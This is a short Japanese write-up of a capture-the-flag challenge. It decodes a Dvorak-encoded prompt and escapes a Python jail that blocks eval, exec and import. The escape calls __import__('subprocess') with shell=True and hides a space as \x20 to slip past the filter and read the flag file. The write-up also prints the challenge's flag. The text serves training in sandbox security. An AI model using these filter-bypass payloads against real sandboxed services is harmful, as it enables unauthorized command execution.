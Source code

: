 # Writeup

`nc`コマンドを実行すると以下のメッセージが表示される。

```
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
```

問題タイトルの`ekrpat`で調べると、次のキーボード画像が見つかった。

![](img/2021-03-28-18-57-49.png)

これは、**Dvorak配列**とよばれるキー配列だということが分かった。

以下のサイトを使って変換してみる。

* https://www.geocachingtoolbox.com/index.php?lang=en&page=dvorakKeyboard

```
You've broken my code! Escape without the help of eval, exec, import, open, os, read, system, and write. First, enter 'dvorak'. You will then get another input which you can use try to break out of the jail.
```

dvorakと入力した後、Pythonプログラムが実行できる。上のメッセージにも書いてある通り`eval`や`exec`等が使えないので工夫する。

```bash
>>> dvorak
>>> __import__('subprocess').call('dir',shell=True);              
Dockerfile  ekrpat.py  flag  ojal.  ynetd
Dockerfile  ekrpat.py  flag  ojal.  ynetd
Play by the rules!!! Try again.

>>> dvorak
>>> __import__('subprocess').call('cat\x20flag',shell=True);print('hoge');
UMASS{dvorak_rules}
UMASS{dvorak_rules}
hoge
hoge
```

<!-- UMASS{dvorak_rules} -->